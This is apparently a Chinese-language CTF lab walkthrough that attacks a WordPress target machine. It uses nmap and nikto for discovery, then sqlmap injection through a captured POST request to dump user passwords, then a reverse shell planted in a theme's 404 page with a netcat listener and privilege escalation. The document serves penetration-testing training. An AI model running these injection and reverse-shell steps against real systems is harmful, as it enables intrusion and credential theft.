51CTO的网课，本篇利用nmap搜索开放端口，nikto挖掘敏感目录，使用burpsuite构建post请求的raw文件，用sqlmap进行post参数注入，获取用户名和口令，上传反弹shell，获得权限，拿到flag。

本篇使用工具burpsuite，sqlmap。

<!-- more -->

# 使用命令

## sqlmap

``` bash
# batch可以自动补全询问
sqlmap -r [post请求] --level [1~5] --risk [1~3] --dbs --dbms mysql --batch
sqlmap -r [post请求] --level [1~5] --risk [1~3] -D [‘数据库名’]  --tables --batch
sqlmap -r [post请求] --level [1~5] --risk [1~3] -D [‘数据库名’]  -T [‘表名’] --columns --batch
sqlmap -r [post请求] --level [1~5] --risk [1~3] -D [‘数据库名’]  -T [‘表名’] -C [‘字段名1,字段名2,…’] --dump --batch
```

## nc

``` bash
nc -nlvp 监听端口
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，两个web服务：

``` bash
nmap -sV 192.168.1.117
```



2. `nikto`挖掘`80`、`8080`端口web信息，找到一个登录页面和一个敏感目录`/img/`：

``` bash
nikto -host http://192.168.1.117/
nikto -host http://192.168.1.117:8080/
```





3. 访问登录页面，尝试弱口令**admin**登录失败，查看源码是post请求：



4. 访问`/img/`目录，没有敏感文件，但是有个**wordpress.png**，说明网站可能是wordpress搭建的：



5. 尝试访问`/wordpress/wp-login.php`成功找到登录界面，这个页面用dirb也能扫出来，不过有点慢，尝试弱口令**admin**登录同样失败：



6. 使用burpsuite，首先设置与浏览器的代理ip和端口一致：



7. 浏览器模拟一次登录，在burpsuite查看raw文件，保存下来给sqlmap用：



8. sqlmap使用raw文件扫描，获取到数据库列表：

``` bash
sqlmap -r post.raw --level 5 --risk 3 --dbs --dbms mysql --batch
```



9. 查看敏感数据库，前面几个都是空的，最后的`wordpress8080`有用户表：

``` bash
sqlmap -r post.raw --level 5 --risk 3 -D wordpress8080 --tables --batch
```



10. 查看`users`表的列：

``` bash
sqlmap -r post.raw --level 5 --risk 3 -D wordpress8080 -T users --cloumns --batch
```



11. 查看`username`和`password`列的内容，得到用户密码：

``` bash
sqlmap -r post.raw --level 5 --risk 3 -D wordpress8080 -T users -C username,password --dump --batch
```



12. 制作web反弹shell，修改攻击机IP和端口：



13. 替换掉主题的404页面，开启监听，访问页面获得权限，优化shell界面并提权，提权密码是前面sqlmap探测到的：

``` bash
nc -nlvp 4444

python -c "import pty;pty.spawn('/bin/bash')"
```



# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)